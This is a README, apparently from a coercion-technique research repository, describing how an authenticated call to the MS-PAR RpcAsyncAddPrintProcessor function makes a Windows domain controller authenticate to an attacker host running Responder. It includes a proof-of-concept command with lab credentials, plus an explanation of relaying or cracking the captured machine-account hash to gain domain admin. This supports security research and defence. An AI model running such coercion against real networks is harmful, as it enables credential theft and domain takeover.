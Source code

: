 # MS-PAR - Remote call to RpcAsyncAddPrintProcessor (opnum 44)

## Summary

 - **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

 - **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`RpcAsyncAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4)

 - **Function operation number**: `44`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncAddPrintProcessor('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAsyncAddPrintProcessor(
   [in] handle_t hRemoteBinding,
   [in, string, unique] wchar_t* pName,
   [in, string] wchar_t* pEnvironment,
   [in, string] wchar_t* pPathName,
   [in, string] wchar_t* pPrintProcessorName
 );
```

## References

 - Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

 - Documentation of function `RpcAsyncAddPrintProcessor`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4